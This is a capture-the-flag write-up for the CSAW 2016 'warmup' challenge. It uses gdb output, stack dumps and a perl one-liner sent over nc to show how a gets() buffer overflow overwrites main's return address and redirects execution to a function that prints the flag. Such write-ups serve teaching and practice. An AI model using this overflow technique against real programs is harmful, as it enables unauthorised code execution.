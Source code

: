 # CSAW 2016 Quals
# warmup
##### Brad Daniels -- USF Whitehatter's Computer Security Club
##### pwn -- 50 points
## Description
So you want to be a pwn-er huh? Well let's throw you an easy one ;)

`nc pwn.chal.csaw.io 8000`

## Solution
Warmup gives you a 64-bit ELF binary. When run, it produces the following output and allows the user to enter a string.
~~~
sh$ ./warmup
-Warm Up-
WOW:0x40060d
> 
sh$ 
~~~
Each time it's run, it produces the same "WOW" hex value, `0x40060d`. 

Lets open the file in gdb to see what's going on. 

~~~
sh$ gdb warmup
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400488  _init
0x00000000004004c0  write@plt
0x00000000004004d0  system@plt
0x00000000004004e0  __libc_start_main@plt
0x00000000004004f0  __gmon_start__@plt
0x0000000000400500  gets@plt
0x0000000000400510  sprintf@plt
0x0000000000400520  _start
0x0000000000400550  deregister_tm_clones
0x0000000000400580  register_tm_clones
0x00000000004005c0  __do_global_dtors_aux
0x00000000004005e0  frame_dummy
0x000000000040060d  easy
0x000000000040061d  main
0x00000000004006b0  __libc_csu_init
0x0000000000400720  __libc_csu_fini
0x0000000000400724  _fini
(gdb)
~~~ 

The one function that sticks out here is "easy". If we disasemble it we see that it calls `system("cat flag.txt")`

~~~
(gdb) disas easy
Dump of assembler code for function easy:
0x000000000040060d <+0>:     push   rbp
0x000000000040060e <+1>:     mov    rbp,rsp
0x0000000000400611 <+4>:     mov    edi,0x400734
0x0000000000400616 <+9>:     call   0x4004d0 <system@plt>
0x000000000040061b <+14>:    pop    rbp
0x000000000040061c <+15>:    ret
End of assembler dump.
(gdb) x/s 0x400734
0x400734:       "cat flag.txt"
(gdb)
~~~

The main function ends with a `gets()` call followed by the `leave` and `ret` instructions. Since `gets()` is vulnerable to buffer overflows, we should be able to overwrite the return address of the main function and replace it with the address of "easy". 

Let's set a breakpoint after the call to `gets()`, enter some text, and observe what happens on the stack. 

~~~
(gdb) b * 0x00000000004006a3
Breakpoint 1 at 0x4006a3
(gdb) r
Starting program: ./warmup
-Warm Up-
WOW:0x40060d
>aaaaaaaa

Breakpoint 1, 0x00000000004006a3 in main ()
(gdb) p $rbp
$4 = (void *) 0x7fffffffe360
(gdb) p $rsp
$5 = (void *) 0x7fffffffe2e0
(gdb) x/20gz $rsp
0x7fffffffe2e0: 0x6430363030347830      0x000000000000000a
0x7fffffffe2f0: 0x0000000000000000      0x0000000000000000
0x7fffffffe300: 0x0000000000000000      0x0000000000000000
0x7fffffffe310: 0x0000000000000000      0x0000000000000000
0x7fffffffe320: 0x6161616161616161      0x0000000000400600
0x7fffffffe330: 0x0000000000000000      0x0000000000000000
0x7fffffffe340: 0x00000000004006b0      0x0000000000400520
0x7fffffffe350: 0x00007fffffffe440      0x0000000000000000
0x7fffffffe360: 0x00000000004006b0      0x00007ffff7a2e830
0x7fffffffe370: 0x0000000000000000      0x00007fffffffe448
(gdb)
~~~
At `0x7fffffffe360` is the previous stack frame base pointer, and in the following word at `0x7fffffffe368` sits the return address of the `main` function. That is what we need to overwrite.  

Since the current return address is 6 bytes, we need our injected address to overwrite all those bytes. If we don't include two extra null bytes, our return address will wind up being `0x00007fff0040060d`, which will cause a segfault. `gets()` allows us to include null bytes in our string so this should be easy.

We can use a perl one-liner to easily prepare a suitable injection string. 
~~~
sh$ perl -e 'print "a"x72; print "\x0d\x06\x40\x00\x00"' > egg.txt
sh$ nc pwn.chal.csaw.io 8000 < egg.txt
-Warm Up-
WOW:0x40060d
>FLAG{LET_US_BEGIN_CSAW_2016}
~~~ 
